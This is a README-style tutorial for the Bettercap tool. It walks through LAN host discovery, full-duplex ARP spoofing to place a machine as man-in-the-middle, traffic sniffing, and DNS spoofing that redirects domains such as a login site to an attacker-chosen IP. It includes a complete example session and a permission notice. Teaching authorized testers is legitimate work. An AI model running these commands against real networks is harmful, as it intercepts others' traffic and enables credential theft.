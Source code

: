 # Bettercap - Quick Reference & Guide

A small, focused repository to help users get started with **Bettercap** for network discovery, ARP spoofing (MITM) and DNS spoofing. This README gives a clear, step-by-step workflow, explanations of commands, examples, safety guidance and troubleshooting tips.

---

## Table of contents

* [What is this repo for?](#what-is-this-repo-for)
* [Safety & Legal Notice](#safety--legal-notice)
* [Prerequisites](#prerequisites)
* [Installation](#installation)
* [Starting Bettercap](#starting-bettercap)
* [Network discovery (net.probe / net.show)](#network-discovery-netprobe--netshow)
* [ARP spoofing (man-in-the-middle)](#arp-spoofing-man-in-the-middle)
* [DNS spoofing](#dns-spoofing)
* [Example session](#example-session)
* [Tips & best practices](#tips--best-practices)
* [Troubleshooting](#troubleshooting)

---

## What is this repo for?

This repo provides a compact, user-friendly README to teach the core Bettercap commands and a recommended workflow for discovery, ARP spoofing, and DNS spoofing. It is aimed at learners and security testers who already understand ethical and legal constraints.

---

## Safety & Legal Notice

**Do not** run ARP/DNS spoofing, MITM, or any offensive network tests on networks or devices for which you do **not** have explicit permission. Misuse can be illegal and harmful.

If you are practicing on your own lab network, use isolated test environments (VMs, VLANs, or dedicated hardware).

---

## Prerequisites

* A Unix-like OS (Linux/macOS) or a compatible environment.
* Administrative/root privileges (many Bettercap features require `sudo`).
* Bettercap installed (version may affect command names/options).
* Basic knowledge of TCP/IP, ARP, DNS, and network interfaces.

---

## Installation

Commands below are common installation approaches. Confirm with your OS package manager and Bettercap docs.

**Debian/Ubuntu (example):**

```bash
sudo apt update
sudo apt install bettercap
# or install via gem or release binaries depending on your preference
```

---

## Starting Bettercap

Start the interactive Bettercap CLI:

```bash
sudo bettercap
```

Alternatively start against a specific network interface:

```bash
sudo bettercap -iface eth0
```

Replace `eth0` with your active interface name (e.g., `wlan0`, `enp3s0`).

---

## Network discovery (net.probe / net.show)

Discover devices on your LAN:

```
net.probe on
```

This probes the network to gather hosts.

Show discovered devices:

```
net.show
```

`net.show` lists IP, MAC, vendor and open ports (if probed). Use this output to pick targets for ARP or DNS spoofing.

---

## ARP spoofing (man-in-the-middle)

**Goal:** place your machine between a target device and the gateway (router) to inspect or manipulate traffic.

> Important flags and commands:

* `arp.spoof.fullduplex true` - attempt fullduplex to intercept both directions (target ↔ gateway).
* `arp.spoof.targets <IP>` - set the victim IP(s).
* `arp.spoof on` - enable ARP spoofing.
* `net.sniff on` - start sniffing intercepted traffic in real time.

**Example ARP spoofing sequence:**

```bash
# inside bettercap CLI
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.1.7
arp.spoof on
net.sniff on
```

**Explanations:**

* `arp.spoof.fullduplex true` tries to poison ARP tables for both the **target** and the **gateway**, making your host the MITM for traffic flowing either way.
* `arp.spoof.targets` can accept a single IP, a comma-separated list, or a netmask range depending on version.
* `net.sniff` captures packets; saved captures or live output depend on configuration.

**Stopping ARP spoofing:**

```bash
arp.spoof off
```

---

## DNS spoofing

Use DNS spoofing to redirect specific domains to an IP you control (use responsibly).

**Commands:**

```bash
set dns.spoof.address 10.0.0.123
set dns.spoof.domains example.com,login.example.net
dns.spoof on
```

**Explanation:**

* `dns.spoof.address <IP>` - the IP that spoofed DNS records should resolve to.
* `dns.spoof.domains <domain1,domain2,...>` - comma-separated domains to intercept and spoof.
* `dns.spoof on` - enables DNS spoofing module.

**Notes:**

* Bettercap may support wildcard or file-backed domain lists; check your version.
* Some client systems (HTTPS, certificate pinning, HSTS) will detect or prevent redirection -- DNS spoofing does not bypass TLS certificate checks.

---

## Example session

```bash
# start bettercap (with interface)
sudo bettercap -iface wlan0

# discovery
net.probe on
net.show

# choose a target (example IP 192.168.1.7)
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.1.7
arp.spoof on

# sniff traffic
net.sniff on

# optionally redirect a domain to your web server
set dns.spoof.address 192.168.1.50
set dns.spoof.domains example.com
dns.spoof on
```

---

## Tips & best practices

* Always confirm the network interface: `ip link` / `ifconfig`.
* Run Bettercap in a controlled test environment first.
* Use packet capture tools (tcpdump, Wireshark) alongside Bettercap for offline analysis.
* Keep Bettercap and system packages updated.
* Read Bettercap module documentation for advanced options (such as logging, scripting, cert tools).

---

## Troubleshooting

* **No hosts discovered:** Ensure `net.probe` completed and your interface is correct. Some networks block ARP scanning.
* **ARP spoof not effective:** Check kernel IP forwarding and firewall rules on your machine; ensure `sudo` privileges.
* **DNS spoof not redirecting:** Client may be using DNS over HTTPS (DoH) or DNS caching; check client DNS settings.
* **HTTPS errors at client:** TLS certificate checks will prevent transparent HTTPS hijacking; DNS spoofing alone will not forge certificates.

---

## Final notes

* This README is a compact learning resource - it intentionally focuses on core commands and workflows.
* Always confirm Bettercap version differences and consult the official Bettercap documentation for advanced configuration or changes in command syntax.
